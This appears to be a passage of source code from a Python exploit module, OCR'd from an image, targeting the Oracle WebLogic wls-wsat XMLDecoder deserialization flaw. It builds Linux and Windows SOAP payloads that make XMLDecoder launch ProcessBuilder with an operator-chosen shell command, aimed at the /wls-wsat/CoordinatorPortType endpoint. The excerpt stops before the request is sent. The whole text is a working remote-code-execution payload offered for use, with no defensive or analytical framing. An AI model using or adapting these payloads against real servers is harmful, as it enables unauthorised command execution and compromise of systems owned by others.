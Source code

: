 ```python
    proxies = Proxies().result(proxies)
    scheme, url, port = UrlProcessing().result(Url)
    if port is None and scheme == 'https':
        port = 443
    elif port is None and scheme == 'http':
        port = 80
    else:
        port = port

    command = kwargs.get("Command")

    linux_data = '''<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
    <java version="1.4.0" class="java.beans.XMLDecoder">
    <void class="java.lang.ProcessBuilder">
    <array class="java.lang.String" length="3">
    <void index="0">
    <string>/bin/bash</string>
    </void>
    <void index="1">
    <string>-c</string>
    </void>
    <void index="2">
    <string>{}</string>
    </void>
    </array>
    <void method="start"/></void>
    </java>
    </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
    </soapenv:Envelope>'''.format(command)
    windows_data = '''<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
      <soapenv:Header>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
            <java version="1.8.0_131" class="java.beans.XMLDecoder">
              <void class="java.lang.ProcessBuilder">
                <array class="java.lang.String" length="3">
                  <void index="0">
                    <string>C:\Windows\System32\cmd.exe</string>
                  </void>
                  <void index="1">
                    <string>/c</string>
                  </void>
                  <void index="2">
                    <string>{}</string>
                  </void>
                </array>
              <void method="start"/></void>
            </java>
          </work:WorkContext>
        </soapenv:Header>
      <soapenv:Body/>
    </soapenv:Envelope>
    '''.format(command)
    data=""
    if kwargs.get("OperatingSystem")=="windows":
        data = windows_data
    elif kwargs.get("OperatingSystem")=="linux":
        data=linux_data
    try:
        payload = '/wls-wsat/CoordinatorPortType'
```